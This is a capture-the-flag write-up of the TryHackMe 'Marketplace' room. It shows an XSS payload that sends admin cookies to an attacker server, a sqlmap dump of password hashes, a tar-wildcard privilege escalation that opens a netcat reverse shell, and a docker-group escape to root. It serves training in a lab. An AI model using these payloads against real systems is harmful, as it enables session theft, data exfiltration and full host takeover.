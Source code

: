 ```yaml
---
title: The Marketplace - Writeup
---
```


_**Nov 13, 2020**_

[The Marketplace](https://tryhackme.com/room/marketplace) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/Marketplace$ nmap -sC -sV 10.10.79.215
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## XSS :

The nmap scan show a `/robots.txt` with 1 entry `/admin` So we can Login or SignUp.
I tried SQLi in the login page but i found nothing. So signed up to the webapp.
New Listing page posts the data to home page. Here we can try XSS.

##### Payload :

```
<script>fetch("http://IP:8000/"+document.cookie)</script>test
```
Listen on a local server :

```
bvr0n@kali:~/Documents/Reverse_Shells$ python -m SimpleHTTPServer
```

You will notice that when you hit submit we get the cookie as request from the server, but we need the admin to click on this link so we report it to the admin and voila :

```
10.10.79.215 - - [12/Nov/2020 16:36:13] code 404, message File not found
10.10.79.215 - - [12/Nov/2020 16:36:13] "GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyMTY5NzV9.YaVjT0qw5rwwmaDs4-A0f8F3ftvGYqIAe-8hMoN66lo HTTP/1.1" 404 -
```

Change the token value in the storage section and you will get the admin panel.

## SQL Injection :

The `/admin?user=2` address is vulnerable to SQL Injection, We can test with this payload after the `user=2` `‘ or 1=1` and we get this error :

`Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '‘ or 1=1' at line 1`

Now we know that it's running MySQL, Now we can use `sqlmap` :

```
bvr0n@kali:~$ sqlmap http://10.10.19.78/admin?user=3 --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDUyODI4NjZ9.IgpK3J9x4W76CHNamc5WYhLahKx9Kr5AxMtqFgj0qTw' --technique=U --delay=2 -dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:58:06 /2020-11-13/

Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] 
[10:58:11] [INFO] testing connection to the target URL
[10:58:15] [INFO] heuristic (basic) test shows that GET parameter 'user' might be injectable (possible DBMS: 'MySQL')
[10:58:43] [INFO] target URL appears to have 4 columns in query
```
We successfully extracted the database, the `messages` table had a ssh password.

```
Table: messages
[5 entries]
+----+---------+---------+-----------+--------------------------------------------------------------------------------------------------+
| id | is_read | user_to | user_from | message_content                                                                                  |
+----+---------+---------+-----------+--------------------------------------------------------------------------------------------------+
| 1  | 1       | 3       | 1         | Hello!\r\nAn automated system has detected your SSH password is too weak and needs to be changed.| 
|    |         |         |           | You have been generated a new temporary password.\r\nYour new password is: ****************      |
+----+---------+---------+-----------+--------------------------------------------------------------------------------------------------+
```
And also extracted all the users hash.

```
Database: marketplace                                                                                                                                               
Table: users
[4 entries]
+----+--------------------------------------------------------------+----------+-----------------+
| id | password                                                     | username | isAdministrator |
+----+--------------------------------------------------------------+----------+-----------------+
| 1  | $2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW | system   | 0               |
| 2  | $2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q | michael  | 1               |
| 3  | $2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG | jake     | 1               |
| 4  | $2b$10$2iHEbf1uB1LvOlHyXvWfhedQgiS8pXIAIkMab0EhrssCtEZHUE2vy | admin    | 0               |
+----+--------------------------------------------------------------+----------+-----------------+
```


## Privilege Escalation !

##### User Michael :

```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
We can run `/opt/backups/backup.sh` as user `Michael`, Let's check the content of `backup.sh`

```
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
Tar wildcards is very dangerous, [Check Here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks) :

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 8080 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpSoint=1
```
```
bvr0n@kali:~$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.8.14.157] from (UNKNOWN) [10.10.70.189] 40246
$ id && whoami
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
michael
$
```

##### Upgrade Shell :

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
[Ctrl+Z]
bvr0n@kali:~$ stty raw -echo
bvr0n@kali:~$ fg 
michael@the-marketplace:/opt/backups$ export SHELL=bash
michael@the-marketplace:/opt/backups$ stty rows 38 columns 116
michael@the-marketplace:/home/marketplace$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
User michael is in docker group, seems intresting :

```
michael@the-marketplace:/home/marketplace$ docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        2 months ago        2.16GB
nginx                        latest              4bb46517cac3        3 months ago        133MB
node                         lts-buster          9c4cc2688584        3 months ago        886MB
mysql                        latest              0d64f46acfd1        3 months ago        544MB
alpine                       latest              a24bb4013296        5 months ago        5.57MB
```
We can abuse one of these images to get the root privileges, [Check This](https://gtfobins.github.io/gtfobins/docker/) :

```
michael@the-marketplace:/home/marketplace$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@9fe4ab0e0edd:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@9fe4ab0e0edd:/#
```
##### Congratulations, you now have complete access to the system. Hope you enjoyed this guide. :)
